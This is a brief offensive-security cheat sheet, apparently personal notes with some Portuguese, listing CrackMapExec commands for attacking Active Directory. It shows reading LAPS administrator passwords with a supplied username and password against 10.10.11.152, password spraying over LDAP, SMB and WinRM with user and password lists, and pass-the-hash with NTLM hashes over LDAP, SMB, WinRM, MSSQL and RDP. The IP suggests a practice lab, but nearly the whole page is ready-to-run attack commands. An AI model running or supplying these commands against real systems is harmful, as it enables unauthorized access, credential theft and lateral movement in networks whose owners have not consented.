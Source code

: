 Crackmapexec
========================

## LAPS

read LAPS passwords (necessário ter permissão pe LAPS_Readers):

    crackmapexec ldap 10.10.11.152 -u svc_deploy -p E3R$Q62^12p7PLlC%KWaxuaV' -M laps


## Password spraying

    crackmapexec ldap hosts.txt -u users.txt -p P@ssword! --continue
    
    crackmapexec smb 10.10.11.152 -u users.txt -p passwords_test.txt --continue
    
    crackmapexec winrm 10.10.11.152 -u users.txt -p passwords_test.txt --continue

## Pass the hash

    crackmapexec ldap hosts.txt -u users.txt -H :<nthash> --continue
    
    crackmapexec smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
    crackmapexec rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>